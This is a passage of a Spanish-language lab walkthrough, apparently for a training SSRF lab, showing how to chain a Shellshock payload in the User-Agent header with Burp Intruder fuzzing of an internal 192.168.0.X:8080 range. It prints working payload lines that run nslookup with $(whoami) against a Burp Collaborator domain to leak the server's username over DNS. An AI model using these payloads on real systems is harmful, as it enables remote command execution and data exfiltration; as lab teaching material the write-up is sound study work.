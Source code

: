 Quedándonos así:


`User-Agent: () { :; }; /usr/bin/nslookup 3sw48jwo77pbi4psh1cruyzklbr2fr.burpcollaborator.net`

Así que esto está casi terminado, pero recordemos que no nos interesa ver el nombre del dominio, sino que queremos ver el usuario, y para ello podemos concatenar junto al servidor destino un comando.

Quedando nuestro User-Agent de la siguiente manera:

`User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3sw48jwo77pbi4psh1cruyzklbr2fr.burpcollaborator.net`

Así que de esta forma, en la respuesta DNS que recibiremos no se verá la respuesta de lo que ejecuta el comando nslookup, pero como este comando tramita peticiones DNS, y en el servidor tercero al cual enviara esas peticiones vemos que le concatenamos el comando whoami, entonces en la respuesta DNS, en teoría deberemos recibir la respuesta del comando whoami junto a lo que el comando nslookup haga por los DNS.

<br>

Así que nuestro payload quedará así:

![shellshock](/assets/images/LabsSSRF/lab7/shellshock.png)

Por último, recordemos que esta petición debe enviarse a un host que está entre el rango de 192.168.0.X:8080, así que para saber esto, haremos un ataque de tipo sniper desde el intruder de Burpsuite, así que una vez mandemos esta petición al intruder, agregaremos en el referer el valor que será fuzzeado quedando así:

`Referer: http://192.168.0.1:8080`

![uno](/assets/images/LabsSSRF/lab7/uno.png)

Vemos que hemos agregado el payload en el final de la IP, esto para irla fuzzeando del 1 hasta el 254, y para esto iremos a payloads, y configuraremos lo siguiente:

![payloads](/assets/images/LabsSSRF/lab7/payloads.png)
